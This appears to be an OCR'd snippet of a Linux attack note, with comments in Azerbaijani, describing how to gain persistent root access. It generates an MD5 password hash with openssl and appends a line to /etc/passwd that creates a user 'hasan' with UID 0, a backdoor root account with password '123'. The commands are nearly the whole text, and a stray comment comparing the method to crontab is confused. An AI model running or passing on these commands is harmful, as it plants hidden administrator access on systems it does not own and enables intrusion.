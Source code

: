     nano  /etc/passwd  
 ## hissesine elave etsen sen hemise root kimi usere daxil olacaqsan 
      openssl passwd -1  -salt hasan
   ## parol 123
       nano /etc/passwd
       
    hasan:$1$hasan$BUMdh4tI4WdCuFkBJI64T/:0:0:root:/root:/bin/bash
   
 


  
   ## sen artiq ROOT'SAN
# The working mechanism of this is very similar to crontab
echo 'hasan:\$1\$hasan$BUMdh4tI4WdCuFkBJI64T:0:0:root:/root:/bin/bash
' >> /etc/passwd

